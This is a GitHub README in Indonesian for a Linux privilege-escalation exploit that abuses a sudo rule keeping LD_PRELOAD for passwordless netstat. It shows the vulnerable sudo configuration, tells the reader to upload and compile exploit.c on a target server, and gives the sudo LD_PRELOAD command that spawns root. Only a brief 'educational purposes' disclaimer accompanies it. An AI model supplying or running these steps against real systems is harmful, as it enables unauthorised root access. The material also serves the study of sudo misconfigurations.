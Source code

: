 
# Netstat-LD_PRELOAD-Exploit

Exploit yang menggunakan netstat dan LD_PRELOAD untuk mendapatkan akses root (privilege escalation) pada sistem Linux.

Peringatan: Kode ini hanya untuk tujuan pendidikan dan tidak boleh digunakan untuk tujuan jahat. Penggunaan kode ini untuk tujuan jahat dapat menyebabkan kerusakan pada sistem dan dapat dianggap sebagai tindakan ilegal.

## Vuln/Examples
env_keep+=LD_PRELOAD ALL : ALL) NOPASSWD: /usr/bin/netstat
```bash
$ sudo -l

Matching Defaults entries for mint on navigate:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty,
    env_keep+=LD_PRELOAD

User mint may run the following commands on navigate:
    (ALL : ALL) NOPASSWD: /usr/bin/netstat

```


## Installation

Upload exploit.c ke server target. Dan compile exploit.c

```bash
gcc -fPIC -shared -nostartfiles -o exploit.so exploit.c
```

Atau, bisa juga upload langsung exploit.so


## Running Exploit

```bash
 sudo LD_PRELOAD=/tmp/rootkit.so /usr/bin/netstat
```

![poc](https://github.com/mzrismuarf/LinuxPrivEscalation/blob/main/Netstat-LD_PRELOAD-Exploit/demo/poc.gif)

